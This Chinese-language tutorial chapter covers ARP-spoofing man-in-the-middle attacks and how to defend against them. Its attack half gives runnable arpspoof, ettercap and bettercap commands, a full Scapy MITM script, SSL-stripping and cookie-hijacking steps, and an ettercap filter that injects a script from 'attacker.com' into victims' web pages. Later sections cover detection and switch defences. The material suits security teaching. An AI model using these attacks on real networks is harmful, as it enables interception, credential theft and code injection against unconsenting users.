







## 案例六：ARP欺骗中间人攻击

> 案例一介绍了ARP欺骗的基本流程和arpspoof的简单用法。本案例从协议报文层面深入剖析ARP欺骗的工作机制，对比多种攻击工具的实现差异，演示高级中间人攻击手法（SSL剥离、会话劫持、流量篡改），并系统讲解检测、取证与防御的完整闭环。

### 6.1 ARP协议报文结构深度解析

#### 6.1.1 ARP报文格式

ARP报文封装在以太网帧中，完整结构如下：

```text
以太网帧头（14字节）
├── 目的MAC（6字节）
├── 源MAC（6字节）
└── 类型（2字节）= 0x0806（ARP）

ARP报文（28字节）
├── 硬件类型（2字节）= 0x0001（以太网）
├── 协议类型（2字节）= 0x0800（IPv4）
├── 硬件地址长度（1字节）= 6（MAC地址长度）
├── 协议地址长度（1字节）= 4（IPv4地址长度）
├── 操作码（2字节）：1=请求，2=回复
├── 发送方MAC（6字节）
├── 发送方IP（4字节）
├── 目标MAC（6字节）
└── 目标IP（4字节）
```

ARP请求和ARP回复的区别：

| 字段 | ARP请求 | ARP回复 |
|------|---------|---------|
| 以太网目的MAC | FF:FF:FF:FF:FF:FF（广播） | 目标主机的单播MAC |
| 操作码 | 1（Request） | 2（Reply） |
| 目标MAC | 00:00:00:00:00:00（未知） | 请求方的MAC |
| 是否需要请求 | 是（主动发起） | 可以是主动发送（免费ARP） |

#### 6.1.2 免费ARP（Gratuitous ARP）

免费ARP是ARP欺骗的核心载体。正常情况下，ARP回复是对ARP请求的响应；但ARP协议允许主机主动发送ARP回复，无需任何请求。这就是免费ARP：

```text
免费ARP特征：
- 操作码 = 2（Reply）
- 发送方IP = 自己的IP
- 发送方MAC = 自己的MAC
- 目标IP = 自己的IP（与发送方IP相同）
- 目标MAC = FF:FF:FF:FF:FF:FF（广播）或 00:00:00:00:00:00
```

免费ARP的合法用途包括：IP地址冲突检测、MAC地址变更通知、HSRP/VRRP虚拟IP通告。但攻击者利用同样的机制，将自己的MAC地址与网关IP绑定——这就是ARP欺骗的本质。

#### 6.1.3 ARP缓存更新机制

理解ARP欺骗为何有效，需要理解ARP缓存的更新规则：



关键问题：大多数操作系统在收到ARP回复时，**无条件更新缓存**，不验证该回复是否是对先前请求的响应。即使主机从未发出ARP请求，收到的ARP回复也会被接受并更新缓存。

Linux内核的ARP缓存参数：

```bash
# 查看ARP缓存超时时间
cat /proc/sys/net/ipv4/neigh/eth0/gc_stale_time    # 默认60秒

# 查看ARP缓存管理策略
cat /proc/sys/net/ipv4/neigh/eth0/base_reachable_time  # 默认30秒

# 查看是否接受免费ARP
cat /proc/sys/net/ipv4/conf/eth0/arp_accept  # 0=仅更新已有条目
cat /proc/sys/net/ipv4/conf/eth0/arp_announce # ARP通告级别(0-2)
cat /proc/sys/net/ipv4/conf/eth0/arp_ignore   # ARP响应级别(0-8)
```

### 6.2 ARP欺骗攻击原理与变体

#### 6.2.1 标准双向ARP欺骗

标准的中间人ARP欺骗需要同时欺骗通信双方：



#### 6.2.2 单向ARP欺骗

只欺骗一方，适用于特定场景：

- **欺骗目标机**：目标机的流量发给攻击者，但攻击者不转发（拒绝服务效果）
- **欺骗网关**：网关发往目标机的流量发给攻击者（单向窃听）

#### 6.2.3 ARP缓存投毒（被动攻击）

不主动发送ARP回复，而是监听网络中的ARP请求，在请求到达真实主机之前抢先回复。这种方式更隐蔽，但需要精确的时间控制。

#### 6.2.4 基于ARP的DNS欺骗联动

ARP欺骗成功后，攻击者处于中间人位置，可以同时篡改DNS响应：



### 6.3 攻击工具全面对比

#### 6.3.1 工具特性对比

| 特性 | arpspoof | ettercap | bettercap | Scapy（自定义） |
|------|----------|----------|-----------|----------------|
| 难度 | 低 | 中 | 中 | 高 |
| 自动化程度 | 手动 | 半自动 | 全自动 | 完全可控 |
| 攻击功能 | 仅ARP欺骗 | MITM+插件 | MITM+嗅探+代理 | 任意构造 |
| GUI支持 | 无 | 有 | Web UI | 无 |
| 流量劫持 | 需配合其他工具 | 内置 | 内置 | 需自定义 |
| 隐蔽性 | 低 | 中 | 中 | 高 |
| Python集成 | 无 | 无 | API | 原生Python |
| 维护状态 | 停滞 | 活跃 | 非常活跃 | 非常活跃 |

#### 6.3.2 工具一：arpspoof（dsniff套件）

最经典的ARP欺骗工具，功能单一但稳定可靠：

```bash
# 安装
sudo apt install dsniff

# 基本用法：双向欺骗
# 终端1：告诉目标机"网关的MAC是我"
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

# 终端2：告诉网关"目标机的MAC是我"
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100

# 参数说明：
# -i    指定网卡接口
# -t    指定目标IP（单目标模式）
# -r    双向欺骗（同时欺骗目标和网关，但效果不如两终端稳定）
# -host 欺骗所有主机关于指定主机的ARP条目
```

arpspoof的工作原理：以固定间隔（默认约1秒）持续发送伪造的ARP回复。一旦停止运行，ARP缓存会在几十秒内恢复正常。

#### 6.3.3 工具二：ettercap

功能全面的中间人攻击框架，支持插件扩展：

```bash
# 安装
sudo apt install ettercap-graphical

# 命令行模式
sudo ettercap -T -i eth0 -M arp:remote /192.168.1.100/ /192.168.1.1/

# 参数说明：
# -T          文本模式（不使用ncurses界面）
# -i          指定网卡
# -M arp      ARP欺骗方法
# :remote     远程欺骗（同时转发，不断网）
# /target1/ /target2/  攻击目标对

# 图形界面模式
sudo ettercap -G

# 常用插件
ettercap -T -M arp:remote -P dns_spoof /192.168.1.100/ /192.168.1.1/
# 启用DNS欺骗插件，将目标的DNS查询重定向

ettercap -T -M arp:remote -P find_ettercap /192.168.1.100/ /192.168.1.1/
# 检测局域网内其他ettercap实例
```

ettercap的配置文件 `/etc/ettercap/etter.conf` 中需要注意：

```ini
[privs]
# ettercap默认降权运行
ec_uid = 65534    # nobody用户
ec_gid = 65534    # nobody组

# 如果需要抓取HTTP密码，取消以下注释：
# [strings]
# http_username = "USER"
# http_password = "PASS"
```

ettercap的iptables重定向问题（新版Kali常见）：

```bash
# 如果ettercap报错，可能需要先清除iptables规则
sudo iptables -F
sudo iptables -t nat -F
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

#### 6.3.4 工具三：bettercap

现代中间人攻击框架，功能最为全面：

```bash
# 安装（Kali自带）
sudo apt install bettercap

# 交互式启动
sudo bettercap -iface eth0

# === bettercap交互命令 ===

# 1. 主机发现
> net.probe on           # 开始探测局域网主机
> net.show               # 显示发现的主机列表

# 2. ARP欺骗
> set arp.spoof.targets 192.168.1.100   # 设置目标
> set arp.spoof.internal true           # 同时欺骗内网主机
> arp.spoof on                           # 开始ARP欺骗

# 3. 网络嗅探
> net.sniff on                           # 开始抓包
> set net.sniff.verbose true             # 详细输出
> set net.sniff.filter "tcp port 80"     # BPF过滤器

# 4. HTTPS降级（SSL Strip）
> set http.proxy.sslstrip true           # 启用SSL剥离
> http.proxy on                          # 启动HTTP代理

# 5. DNS欺骗
> set dns.spoof.domains bank.com        # 指定欺骗域名
> set dns.spoof.address 192.168.1.10    # 重定向到攻击者IP
> dns.spoof on                           # 开始DNS欺骗

# 6. 凭证捕获
> set net.sniff.local false             # 不捕获本机流量
> events.stream on                       # 开启事件流
```

bettercap的caplet脚本（自动化攻击脚本）：

```bash
# 创建caplet文件：/tmp/mitm.cap
# 内容如下：
net.probe on
sleep 5
set arp.spoof.targets 192.168.1.100
arp.spoof on
net.sniff on
set http.proxy.sslstrip true
http.proxy on

# 使用caplet运行
sudo bettercap -iface eth0 -caplet /tmp/mitm.cap
```

#### 6.3.5 工具四：Scapy（完全可控的底层构造）

当需要精确控制每个ARP报文时，Scapy是终极武器：

```python
#!/usr/bin/env python3
"""
arp_mitm.py - 基于Scapy的ARP中间人攻击脚本
仅用于授权安全测试环境
"""
import sys
import time
import signal
from scapy.all import (
    Ether, ARP, sendp, srp, get_if_hwaddr, conf
)

class ARPMITM:
    def __init__(self, target_ip, gateway_ip, interface="eth0"):
        self.target_ip = target_ip
        self.gateway_ip = gateway_ip
        self.interface = interface
        self.attacker_mac = get_if_hwaddr(interface)
        self.running = True

    def get_mac(self, ip):
        """通过ARP请求获取目标MAC地址"""
        arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=ip)
        result = srp(arp_request, iface=self.interface, timeout=3, verbose=False)[0]
        if result:
            return result[0][1].hwsrc
        raise Exception(f"无法获取 {ip} 的MAC地址")

    def poison(self, target_ip, target_mac, spoof_ip):
        """发送伪造的ARP回复"""
        # 构造ARP欺骗包
        arp_reply = Ether(dst=target_mac) / ARP(
            op=2,               # ARP Reply
            psrc=spoof_ip,      # 伪装的IP（网关或目标的IP）
            hwsrc=self.attacker_mac,  # 攻击者的MAC
            pdst=target_ip,     # 目标IP
            hwdst=target_mac    # 目标MAC
        )
        sendp(arp_reply, iface=self.interface, verbose=False)

    def restore(self, target_ip, target_mac, source_ip, source_mac):
        """恢复ARP缓存（攻击结束后必须执行）"""
        arp_restore = Ether(dst=target_mac) / ARP(
            op=2,
            psrc=source_ip,
            hwsrc=source_mac,
            pdst=target_ip,
            hwdst=target_mac
        )
        # 发送多次确保恢复
        sendp(arp_restore, iface=self.interface, count=5, verbose=False)

    def start(self):
        """开始ARP欺骗"""
        print(f"[*] 获取MAC地址...")
        self.target_mac = self.get_mac(self.target_ip)
        self.gateway_mac = self.get_mac(self.gateway_ip)
        print(f"[+] 目标 {self.target_ip} 的MAC: {self.target_mac}")
        print(f"[+] 网关 {self.gateway_ip} 的MAC: {self.gateway_mac}")

        # 开启IP转发
        print("[*] 开启IP转发...")
        with open("/proc/sys/net/ipv4/ip_forward", "w") as f:
            f.write("1")

        print(f"[*] 开始ARP欺骗...")
        try:
            while self.running:
                # 欺骗目标：告诉目标"网关的MAC是我"
                self.poison(self.target_ip, self.target_mac, self.gateway_ip)
                # 欺骗网关：告诉网关"目标的MAC是我"
                self.poison(self.gateway_ip, self.gateway_mac, self.target_ip)
                time.sleep(2)  # 每2秒发送一次
        except KeyboardInterrupt:
            pass
        finally:
            self.stop()

    def stop(self):
        """停止攻击并恢复ARP缓存"""
        print("\n[*] 停止攻击，恢复ARP缓存...")
        self.running = False
        self.restore(self.target_ip, self.target_mac,
                     self.gateway_ip, self.gateway_mac)
        self.restore(self.gateway_ip, self.gateway_mac,
                     self.target_ip, self.target_mac)
        # 关闭IP转发
        with open("/proc/sys/net/ipv4/ip_forward", "w") as f:
            f.write("0")
        print("[+] ARP缓存已恢复")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"用法: {sys.argv[0]} <目标IP> <网关IP>")
        sys.exit(1)

    mitm = ARPMITM(sys.argv[1], sys.argv[2])
    mitm.start()
```

Scapy方案的优势在于完全可控：可以自定义发送频率、构造特殊ARP报文（如免费ARP）、集成其他攻击逻辑、以及实现优雅的ARP缓存恢复。

### 6.4 高级中间人攻击手法

ARP欺骗只是获取中间人位置的第一步。真正的攻击在于后续的流量利用。

#### 6.4.1 SSL剥离（SSL Strip）

将HTTPS连接降级为HTTP，使加密流量变为明文：



SSL剥离实操（使用bettercap）：

```bash
# bettercap中执行
> set http.proxy.sslstrip true
> http.proxy on

# 监听HTTPS流量降级后的明文
> set net.sniff.filter "tcp port 80"
> net.sniff on
```

SSL剥离的局限性：HSTS（HTTP Strict Transport Security）网站无法被降级；首次访问HSTS网站时，如果浏览器收到过Strict-Transport-Security头，后续访问会自动使用HTTPS。HSTS Preload List中的网站更是永远无法被降级。

#### 6.4.2 会话劫持

截获HTTP Cookie实现免登录访问目标账户：

```bash
# 使用bettercap的http.cookie.parse模块
> set http.cookie.parse true
> net.sniff on

# 或者使用Wireshark过滤HTTP Cookie
# 过滤器: http.cookie contains "session"

# 使用ferret提取Cookie（ettercap插件）
# 先在ettercap中启用remote_connect插件
# 然后用hamster代理工具重放Cookie
```

#### 6.4.3 流量篡改与代码注入

在中间人位置注入恶意代码到HTTP响应中：

```bash
# 使用ettercap的过滤器功能
# 创建过滤器文件：inject_filter.filter

if (ip.proto == TCP && tcp.dst == 80) {
    if (search(DATA.data, "Accept-Encoding")) {
        replace("Accept-Encoding", "Accept-Rubbish!");
        # 阻止服务器发送压缩内容，方便注入
    }
}
if (ip.proto == TCP && tcp.src == 80) {
    if (search(DATA.data, "</head>")) {
        replace("</head>",
            "<script src='http://attacker.com/hook.js'></script></head>");
        # 在页面头部注入恶意JavaScript
    }
}

# 编译并应用过滤器
sudo etterfilter inject_filter.filter -o inject_filter.ef
sudo ettercap -T -i eth0 -M arp:remote -F inject_filter.ef /192.168.1.100/ /192.168.1.1/
```

#### 6.4.4 DHCP欺骗联动

ARP欺骗获取中间人位置后，可以进一步伪造DHCP服务器，控制目标的DNS服务器设置：

```bash
# 使用yersinia进行DHCP欺骗
sudo yersinia -I

# 在交互界面中：
# 选择 DHCP → 发送 DHCP Offer
# 设置：
#   - DNS Server: 攻击者IP
#   - Gateway: 攻击者IP
#   - Subnet: 目标子网
```

### 6.5 ARP欺骗检测方法

#### 6.5.1 手动检测

```bash
# 方法1：检查ARP缓存是否有重复MAC
arp -a | awk '{print $4}' | sort | uniq -d

# 如果同一个MAC出现在多个IP条目下，可能存在ARP欺骗

# 方法2：使用arping验证
# 用ARP层ping网关，检查返回的MAC是否正确
sudo arping -c 3 192.168.1.1
# 对比 arp -a 中网关的MAC，如果不同则被欺骗

# 方法3：对比IP层和ARP层的MAC
# ping网关后检查ARP缓存
ping -c 1 192.168.1.1
arp -a | grep 192.168.1.1
# 然后用arping直接查询
sudo arping -c 1 192.168.1.1
# 如果两次返回的MAC不同，说明ARP缓存被篡改

# 方法4：检查默认网关MAC是否持久变化
watch -n 2 'arp -a | grep 192.168.1.1'
# 如果MAC地址在短时间内反复变化，说明有ARP欺骗活动
```

#### 6.5.2 Wireshark检测

在Wireshark中使用过滤器识别ARP欺骗：

```text
# 过滤所有ARP回复
arp.opcode == 2

# 检测免费ARP（源IP == 目标IP）
arp.opcode == 2 && arp.src.proto_ipv4 == arp.dst.proto_ipv4

# 检测ARP缓存变化（同一IP对应不同MAC）
# 需要手动对比或使用tshark统计
tshark -r capture.pcap -T fields -e arp.src.hw_mac -e arp.src.proto_ipv4 \
    arp.opcode==2 | sort | uniq -c | sort -rn

# 如果同一个IP对应了多个不同的MAC，说明存在ARP欺骗
```

ARP欺骗的Wireshark特征：
- 短时间内同一IP出现大量ARP Reply（频率异常）
- 未经请求的ARP Reply（没有对应的Request）
- 同一IP的MAC地址频繁变化
- ARP Reply的源MAC与以太网帧的源MAC不一致

#### 6.5.3 自动化检测脚本

```python
#!/usr/bin/env python3
"""
arp_detector.py - ARP欺骗检测工具
监听网络中的ARP流量，检测异常行为
"""
import collections
import time
from scapy.all import sniff, ARP, conf

class ARPSpoofDetector:
    def __init__(self, interface="eth0"):
        self.interface = interface
        self.ip_mac_map = {}          # IP → MAC 映射
        self.mac_count = collections.Counter()  # MAC出现频率
        self.alert_history = set()    # 避免重复告警
        self.gateway_ip = "192.168.1.1"
        self.gateway_mac = None       # 首次学习的网关MAC

    def arp_display(self, pkt):
        """处理每个ARP包"""
        if pkt[ARP].op == 2:  # ARP Reply
            src_ip = pkt[ARP].psrc
            src_mac = pkt[ARP].hwsrc

            # 检测1：MAC地址冲突（同一MAC对应多个IP）
            self.mac_count[src_mac] += 1

            # 检测2：网关MAC变化
            if src_ip == self.gateway_ip:
                if self.gateway_mac is None:
                    self.gateway_mac = src_mac
                    print(f"[*] 学习网关MAC: {src_ip} → {src_mac}")
                elif src_mac != self.gateway_mac:
                    alert_key = f"gw_{src_mac}"
                    if alert_key not in self.alert_history:
                        self.alert_history.add(alert_key)
                        print(f"[!] 警告：网关MAC变化！")
                        print(f"    期望: {self.gateway_mac}")
                        print(f"    实际: {src_mac}")
                        print(f"    可能正在进行ARP欺骗！")

            # 检测3：IP-MAC映射变化
            if src_ip in self.ip_mac_map:
                old_mac = self.ip_mac_map[src_ip]
                if old_mac != src_mac:
                    alert_key = f"{src_ip}_{src_mac}"
                    if alert_key not in self.alert_history:
                        self.alert_history.add(alert_key)
                        print(f"[!] 警告：{src_ip} 的MAC变化")
                        print(f"    之前: {old_mac}")
                        print(f"    现在: {src_mac}")
            else:
                self.ip_mac_map[src_ip] = src_mac

            # 检测4：单个MAC对应过多IP（可能在欺骗多个目标）
            suspicious_threshold = 3
            unique_ips_for_mac = sum(
                1 for ip, mac in self.ip_mac_map.items() if mac == src_mac
            )
            if unique_ips_for_mac >= suspicious_threshold:
                alert_key = f"multi_{src_mac}"
                if alert_key not in self.alert_history:
                    self.alert_history.add(alert_key)
                    print(f"[!] 警告：MAC {src_mac} 对应了 {unique_ips_for_mac} 个IP")
                    print(f"    可能是攻击者或NAT设备")

    def start(self):
        """开始检测"""
        print(f"[*] 开始监听ARP流量 (接口: {self.interface})")
        print(f"[*] 按 Ctrl+C 停止")
        sniff(
            iface=self.interface,
            filter="arp",
            prn=self.arp_display,
            store=0  # 不存储包，节省内存
        )

if __name__ == "__main__":
    detector = ARPSpoofDetector()
    detector.start()
```

#### 6.5.4 网络级检测工具

| 工具 | 类型 | 检测方式 | 适用场景 |
|------|------|----------|----------|
| arpwatch | 守护进程 | 监控IP-MAC映射变化 | Linux服务器/网关 |
| XArp | GUI应用 | 实时ARP监控+告警 | Windows桌面 |
| Snort/Suricata | IDS | 规则匹配ARP异常 | 企业网络 |
| P0f | 被动指纹 | 检测OS指纹不一致 | 高级检测 |
| arpalert | 守护进程 | MAC地址白名单 | 严格安全环境 |

arpwatch的部署与使用：

```bash
# 安装
sudo apt install arpwatch

# 启动（自动后台运行）
sudo systemctl start arpwatch

# 查看日志
tail -f /var/log/syslog | grep arpwatch

# arpwatch日志示例：
# arpwatch: changed ethernet address 192.168.1.1 aa:bb:cc:dd:ee:ff → 11:22:33:44:55:66
# arpwatch: flip flop 192.168.1.1 aa:bb:cc:dd:ee:ff 11:22:33:44:55:66
# arpwatch: NEW station 192.168.1.50 66:77:88:99:aa:bb

# 配置文件
# /etc/arpwatch/arpwatch.conf
# 设置告警邮箱
echo "admin@example.com" > /etc/arpwatch/arpwatch.email
```

### 6.6 企业级防御方案

#### 6.6.1 静态ARP绑定

适用于小型网络或关键设备：

```bash
# Linux服务器静态绑定
# 临时生效
sudo arp -s 192.168.1.1 aa:bb:cc:dd:ee:ff

# 永久生效（添加到网络配置）
# /etc/network/interfaces 或 Netplan
# post-up arp -s 192.168.1.1 aa:bb:cc:dd:ee:ff

# Windows静态绑定
netsh interface ipv4 add neighbors "Ethernet" "192.168.1.1" "aa-bb-cc-dd-ee-ff"

# 批量绑定脚本（/etc/rc.local 或 systemd service）
cat << 'EOF' > /usr/local/bin/arp-static-bind.sh
#!/bin/bash
# 静态ARP绑定——防止ARP欺骗
GATEWAY_IP="192.168.1.1"
GATEWAY_MAC="aa:bb:cc:dd:ee:ff"
arp -s "$GATEWAY_IP" "$GATEWAY_MAC"
echo "静态ARP绑定完成: $GATEWAY_IP → $GATEWAY_MAC"
EOF
chmod +x /usr/local/bin/arp-static-bind.sh
```

静态ARP绑定的局限性：需要手动维护，网络变化时必须更新；在大规模网络中不可行；只保护本机，不影响网络中其他主机。

#### 6.6.2 DAI（Dynamic ARP Inspection）

交换机级别的ARP欺骗防御，企业环境首选：

```text
! Cisco交换机配置示例

! 第一步：启用DHCP Snooping（DAI依赖DHCP Snooping的绑定表）
ip dhcp snooping
ip dhcp snooping vlan 10,20,30

! 第二步：配置信任端口（连接DHCP服务器和上联的端口）
interface GigabitEthernet0/1
  ip dhcp snooping trust

! 第三步：启用DAI
ip arp inspection vlan 10,20,30

! 第四步：配置信任端口（连接路由器/防火墙的端口）
interface GigabitEthernet0/1
  ip arp inspection trust

! 第五步（可选）：为静态IP设备添加ARP ACL
arp access-list STATIC-HOSTS
  permit ip host 192.168.1.50 mac host aa:bb:cc:dd:ee:ff

ip arp inspection filter STATIC-HOSTS vlan 10

! 验证配置
show ip arp inspection
show ip arp inspection statistics
show ip dhcp snooping binding
```

DAI的工作原理：



#### 6.6.3 802.1X端口认证

结合网络准入控制，从根本上防止未授权设备接入：

```text
! 802.1X + ARP防护联动
aaa new-model
aaa authentication dot1x default group radius

dot1x system-auth-control

interface GigabitEthernet0/2
  switchport mode access
  dot1x port-control auto
  dot1x host-mode single-host
  ip arp inspection limit rate 100  # 限制ARP速率
```

#### 6.6.4 网络分段与微隔离

即使ARP欺骗发生，也可以限制影响范围：



ARP欺骗只能影响同一广播域（同一VLAN）内的设备。通过VLAN隔离，即使访客网络被攻击，生产网络也不会受到影响。

#### 6.6.5 综合防御矩阵

| 防御层次 | 技术方案 | 防御效果 | 部署难度 | 成本 |
|----------|----------|----------|----------|------|
| 终端层 | 静态ARP绑定 | 保护单台主机 | 低 | 免费 |
| 终端层 | ARP防火墙（如360ARP防火墙） | 检测+告警+阻断 | 低 | 免费 |
| 网络层 | DAI + DHCP Snooping | 交换机级别防御 | 中 | 需要可管理交换机 |
